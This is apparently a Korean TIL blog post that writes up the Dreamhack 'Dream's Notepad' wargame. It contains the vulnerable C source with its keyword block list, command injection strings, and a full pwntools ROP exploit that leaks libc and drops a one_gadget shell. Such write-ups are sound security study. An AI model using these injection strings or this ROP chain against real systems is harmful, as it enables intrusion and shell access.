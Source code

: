```yaml
---
title:  "TIL: Command Injection, ROP"
excerpt: "2022.08.31 TIL ✍"
toc: true
toc_sticky: true

categories:
  - TIL
  - Hacking
---
```


## Wargame: [Dream’s Notepad](https://dreamhack.io/wargame/challenges/405)

```c
//gcc -o Notepad Notepad.c -fno-stack-protector
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

void Initalize(){
   setvbuf(stdin, (char *)NULL, _IONBF, 0);
   setvbuf(stdout, (char *)NULL, _IONBF, 0);
   setvbuf(stderr, (char *)NULL, _IONBF, 0);
}

void main()
{
    Initalize();

    puts("Welcome to Dream's Notepad!\n");

    char title[10] = {0,};
    char content[64] = {0,};

    puts("-----Enter the content-----");
    read(0, content, sizeof(content) - 1);

    for (int i = 0; content[i] != 0; i++)
    {
        if (content[i] == '\n')
        {
            content[i] = 0;
            break;
        }
    }

    if(strstr(content, ".") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "/") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, ";") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "*") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "cat") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "echo") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "flag") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "sh") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "bin") != NULL) {
        puts("It can't be..");
        return;
    }

    char tmp[128] = {0,};

    sprintf(tmp, "echo %s > /home/Dnote/note", content);
    system(tmp);

    FILE* p = fopen("/home/Dnote/note", "r");
    unsigned int size = 0;
    if (p > 0)
    {
        fseek(p, 0, SEEK_END);
        size = ftell(p) + 1;
        fclose(p);
        remove("/home/Dnote/note");
    }

    char message[256];

    puts("\n-----Leave a message-----");
    read(0, message, size - 1);

    puts("\nBye Bye!!:-)");
}
```

### Vulnerability Scanning

- `checksec`
    
    <p align="center">
        <a href="/assets/images/TIL220831/Untitled (1).png">
            <img src="/assets/images/TIL220831/Untitled (1).png" width="300">
        </a>
    </p>
    
- `sprintf(tmp, "echo %s > /home/Dnote/note", content);` : 사용자에게 입력 받은 내용으로 command를 실행한다. → Command Injection이 가능
- `read(0, message, size - 1);` : size가 message보다 커질 수 있으므로 BOF가 일어날 수 있다.

### Exploit

<p align="center">
    <a href="/assets/images/TIL220831/IMG_0003.PNG.png">
        <img src="/assets/images/TIL220831/IMG_0003.PNG.png" width="500">
	</a>
</p>

- **Command injection**을 일으킬 때 `/home/Dnote/note`의 size를 큰 값으로 설정하기 위해 **format string**을 사용했다. (`printf %1000c > /home/Dnote/note`)
- BOF를 일으킨 후 ROP를 할 땐 우선 `puts(read_got)`를 실행해 **libc_base**를 얻은 후, 다시 `main`으로 돌아가 다시 한 번 BOF를 일으켜 `one_gadget`**을 stack에 삽입**했다.

```python
from pwn import *

#p = process("./Notepad")
p = remote("host3.dreamhack.games", 19804)
#gdb.attach(p)
e = ELF("./Notepad")

p.sendlineafter("content-----\n", '"a" && printf %1000c')

payload = b"A"*(0x100 + 0x80 + 0x40 + 0x28)

pop_rdi = 0x400c73
pop_rsi_pop_r15 = 0x400c6f
ret = 0x400709
puts_got = e.got["puts"]
puts_plt = e.plt["puts"]
read_plt = e.plt["read"]
read_got = e.got["read"]

# puts(puts_got)
payload += p64(pop_rdi) + p64(puts_got)
payload += p64(puts_plt)

# return to main
payload += p64(pop_rdi) + p64(0) #이거 안넣었다가 계속 실패함.
payload += p64(e.symbols["main"])

p.sendafter("a message-----\n", payload)

p.recvline()
p.recvline()
puts = u64(p.recvline()[:-1].ljust(8, b"\x00"))
print(hex(puts))
libc_base = puts - 0x06f6a0
og = libc_base + 0x4527a
system = libc_base + 0x453a0

p.sendlineafter("content-----\n", '"a" && printf %1000c')

payload = b"A"*(0x100 + 0x80 + 0x40 + 0x28)
payload += p64(og)

p.sendafter("a message-----\n", payload)

p.interactive()
```

- `main`을 다시 한 번 실행할 때 까먹고 `main`**의 argument를 초기화**해주지 않았더니 exploit에 실패했다. 항상 `p64(pop_rdi) + p64(0)`과 같이 argument를 초기화해주는 것을 까먹지 말자.

### 다른 사람의 풀이

```python
# ...
p.sendlineafter("content-----\n", "'")
# ...
```

system 함수가 실행하는 command line이 `echo ' > /home/Dnote/note`가 되도록 작성해도 같은 방식으로 exploit이 일어난다. 이렇게 command를 실행할 경우 파일이 생성되지 않아 `size`가 0이 되고, `size - 1`은 곧 UMax가 되므로 BOF를 일으킬 수 있게 된다.

위 command를 실행하면 왜 파일이 생성되지 않는지는 이해하지 못해서 dreamhack에 질문글을 올려두었다. ([링크](https://dreamhack.io/forum/qna/2610))